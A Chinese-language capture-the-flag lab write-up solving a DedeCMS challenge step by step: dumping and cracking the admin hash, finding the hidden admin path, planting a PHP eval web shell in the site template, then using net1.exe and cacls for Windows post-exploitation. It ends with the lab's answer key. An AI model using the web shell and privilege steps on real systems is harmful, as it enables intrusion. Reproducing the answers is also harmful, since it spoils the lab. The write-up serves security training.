<h3 style="color: red;">1、管理员密码</h3>


<!-- 
常规思路:

界面一看就是`demdecms`,查看版本为`20130715`,可以参考乌云案例拿webshell

- [DedeCMS全版本通杀SQL注入(无任何限制)](http://wy.ichenfei.com/bug_detail.php?wybug_id=wooyun-2014-051889)
- [DedeCMS全版本通杀SQL注入(真正的无任何限制附官方测试结果)](http://wy.ichenfei.com/bug_detail.php?wybug_id=wooyun-2014-051950)

只是再加一条思路,由于不能复制粘贴就不作死手敲代码注入了,
-->

根据左侧提示下载 `dedecms` 漏洞利用工具



爆出用户 `ichunqiu`:`adab29e084ff095ce3eb`

解md5得到密码: `only_system`




---

<h3 style="color: red;">2、找出后台</h3>

御剑没有扫描出后台地址

参考[织梦dedecms漏洞讲解](http://www.daixiaorui.com/read/14.html) 给出的爆后台路径方法

`/data/mysql_error_trace.inc`不存在,再试`/data/mysqli_error_trace.inc`(数据库出错信息),爆出后台地址为`/lichunqiul`

更早的版本可以参考[织梦dedecms管理系统后台查找技巧](http://www.qxzxp.com/295.html),大部分被修复了



--- 

<h3 style="color: red;">3、Getshell</h3>

进入后台`www.test.ichunqiu/lichunqiul`

尝试上传文件getshell,可以看到文件管理器被删了,也不能上网下载上传一个,这不科学Orz


参考: [织梦最新后台拿shell](http://tieba.baidu.com/p/4257910205) 以及 [DEDECMS后台另类拿Shell方法](http://www.vfocus.net/art/20100728/7501.html) ,通过修改模板的方法getshell


(1) `系统` --> `系统基本参数` --> `其他选项` --> 删除`禁用函数`与`禁用标签`



(2) `生成` -->` 更新系统主页`--> `选择动态浏览` --> `更新主页HTML`



(3) `模板`--> 默认模板 --> index.htm --> 编辑
添加

```
{dede:php}
@eval($POST["pwd"])
{/dede:php}
```



(4) 上菜刀



---

<h3 style="color: red;">4、查看桌面上的 flag</h3>

似乎做了某些限制不能直接访问,`net user`也没权限,MMP system 不是最高权限吗?！！！



根据左侧提示上传一个`net.exe`同样没用,换成与`net.exe`作用相同的`net1.exe`有用,

改Administrator密码,开3389,燃鹅,所有账号没有远程登录的权限



Google一下,似乎没那么容易通过命令行将用户添加到远程登录组里面:[解决“要登录到这台远程计算机,你必须被授予“的远程无法登陆问题](http://blog.csdn.net/zoomla188/article/details/70673822)

看看能不能改改权限`flag~ichunqiu.txt的权限`, 尝试搜索一下`windows是否有像Linux chmod一样的命令`


发现 [Windows下使用cacls命令修改文件权限设置方法](http://www.360doc.com/content/15/0116/10/3200886_441232359.shtml)以及[Cacls命令详解](http://blog.51cto.com/lucklong/384732)

参考cacls使用修改`flag~ichunqiu.txt`的访问权限

```
cacls flag~ichunqiu.txt                        # 查看访问控制权限
cacls flag~ichunqiu.txt /t /e /c /g system:F   # 修改system的权限为完全控制
type  flag~ichunqiu.txt                        # 再次查看flag~ichunqiu.txt文件

"/t"表示修改文件夹及子文件夹中所有文件的ACL.
"/e"表示仅做编辑工作而不替换.
"/c"表示在出现拒绝访问错误时继续.
"/g ruery:F"表示给予本地用户ruery以完全控制的权限.
"f"代表完全控制，如果只是希望给予读取权限，那么应当是"r"
```


经过仔细辨认途中`1`和`l`的区别,`flag`文件内容应该为`key{il2o3l}`

然鹅,好像哪里不对,WTF



将第三题答案改为`il2o3l`



---

<h3 style="color: red;">5、所以答案是</h3>

```
网站管理员密码是多少？: only_system
网站后台目录名是什么？: lichunqiul
管理员桌面中flag文件信息是____。: il2o3l
```